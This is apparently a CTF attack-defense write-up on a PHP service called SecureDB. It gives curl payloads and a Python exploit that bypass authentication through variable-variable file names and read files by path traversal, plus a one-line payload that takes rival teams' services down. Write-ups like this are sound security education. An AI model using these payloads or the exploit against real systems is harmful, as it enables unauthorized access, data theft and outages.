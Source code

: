 # SecureDB Vulnerabilities

Authentication Bypass
------
There's an authentication mechanism called `checkAdmin()` which basically compares a GLOBAL variable called `isAdmin` to make sure if it's set and is `True`.  Since PHP version on server was `5.5.9`, so by default `register_globals` has been truned OFF, since PHP 4.2.0. Therefore it's not possible to set this variable using `$_GET` or `$_COOKIE`. But there's a functionality in service at the beginning of file which goes through all of the files in `../append` directory and introduce them as a variable using [variable variable name](http://php.net/manual/en/language.variables.variable.php).

```php
$$_fileName = json_decode(file_get_contents(FILE_DIRECTORY . $_fileName), true);
```

If attacker by chance could make a file with name `isAdmin` under `../append` directory, so the above code will replace file name as a variable name and finally we can have `$isAdmin` set.

In order to exploit that, there's another functionality in the service to make files under that directory named `storeProtectedRecord()`. Using the following payload one can make `isAdmin` file:

```
curl "http://localhost/securedb/securedb.php?method=storeProtectedRecord&filename=isAdmin&password=foo&name=bar&ssn=tar"
```

Then you'll see that service shows you that you're an Admin right now. So, with this privilege one can read files from server using `adminAccessFile()` method. Using the following exploit you can read filesfrom service.

```
curl "http://localhost/securedb/securedb.php?method=adminAccessFile&filename=../append/flag_id"
```

In the following you can find the full exploit which grabs flag from each team.

```python
def exploit(host, port, flag_id):
	payload = 'http://{0}:{1}/securedb.php?method=storeProtectedRecord&fileName=isAdmin&password=foo&name=bar&ssn=ssn'
	url = payload.format(host, port)
	r = requests.get(url, headers={'Connection':'close'})
	payload = 'http://{0}:{1}/securedb.php?method=adminAccessFile&fileName=../append/{2}'
	url = payload.format(host, port, flag_id)
	r = requests.get(url, headers={'Connection':'close'})
	flag = re.findall(r'(FLG[a-zA-Z0-9]{13})', r.content)
	try:
		return flag[0]
	except:
		pass
```

DOS Attack
-------
During the game I got there's another vulnerability in the way new variables made from file name which paid my attention for some moments. If I make a file named `_GET` under the `../append` directory, next time the service will iterate through files and introduces new variables, a new variable named `$_GET` will be made with a garbage string content. So, by using this any further GET requests of bot-master to service will be failed which will be considered as a violation of service integrity and scoreboard will show that service as down. Also, it should be metioned that, players didn't have access to removethat file from `../append` directory which seems to be serious. 

Finally, I used this payload to make all instances of other teams `securedb` down. 

```
curl "localhost/securedb/securedb.php?method=storeProtectedRecord&filename=_GET&password=foo&name=bar&ssn=tar"
```

Here's the result of running above attack on other teams:

![alt text](https://raw.githubusercontent.com/pwnslinger/CTF/master/securedb/images/service_status.png "services status board")

Yeah! our team name was cromulence!

Good Luck!
@pwnslinger
